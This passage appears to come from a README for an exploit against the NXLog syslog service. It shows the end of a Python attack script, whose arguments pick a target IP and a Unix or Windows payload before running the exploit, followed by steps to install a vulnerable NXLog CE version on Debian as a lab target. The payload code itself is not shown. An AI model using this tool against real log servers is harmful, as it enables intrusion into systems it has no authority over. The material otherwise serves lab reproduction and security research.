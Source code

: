 ````python
        send(syslog,verbose=args.DEBUG)

def getArguments():
        parser = argparse.ArgumentParser(description="Go h@ck SYSLOG")
        parser.add_argument("-ip", "-IP", dest="IP", type=str, metavar="IP destination", required=True,default=1, help="IP of NXLOG server")
        parser.add_argument("-p", "-P", dest="PORT", type=int, metavar="Port destination", required=False,default=514, help="Port of NXLOG default 514")
        parser.add_argument("-os", "-OS", dest="OS", type=int, metavar="OS", default=1, required=True, help="1 : For unix payload \n 2 : For Windows Paylaod \n 3 : Just for test")
        parser.add_argument("-d", "-D", dest="DEBUG", type=int, metavar="DEBUG", default=0, required=False, help="1 : Debbug enable")
        return parser.parse_args()

def main():
        args = getArguments()
        payload = getPayload(args)
        runExploit(args,payload)
main()
````

---

## 2.1 Linux :
### 2.1.1 Install :

Install Nxlog service on Debian 10 :
````bash
apt-get install libapr1 libdbi1 libssl1.1 multiarch-support

cd /tmp
wget http://ftp.de.debian.org/debian/pool/main/p/perl/libperl5.24_5.24.1-3+deb9u7_amd64.deb
wget http://security.debian.org/debian-security/pool/updates/main/o/openssl1.0/libssl1.0.2_1.0.2u-1~deb9u2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/g/glibc/libc-bin_2.28-10_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/m/man-db/man-db_2.8.5-2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/p/perl/perl-modules-5.24_5.24.1-3+deb9u7_all.deb
wget http://cz.archive.ubuntu.com/ubuntu/pool/main/g/gdbm/libgdbm3_1.8.3-13.1_amd64.deb
wget https://nxlog.co/system/files/products/files/348/nxlog-ce_2.10.2150_debian_stretch_amd64.deb

dpkg -i libc-bin_2.28-10_amd64.deb
dpkg -i libgdbm3_1.8.3-13.1_amd64.deb
dpkg -i perl-modules-5.24_5.24.1-3+deb9u7_all.deb
dpkg -i libperl5.24_5.24.1-3+deb9u7_amd64.deb
dpkg -i libssl1.0.2_1.0.2u-1~deb9u2_amd64.deb
dpkg -i man-db_2.8.5-2_amd64.deb
dpkg -i nxlog-ce_2.10.2150_debian_stretch_amd64.deb
````

Configuration file of nxlog service :
````bash
cat /etc/nxlog/nxlog.conf
````
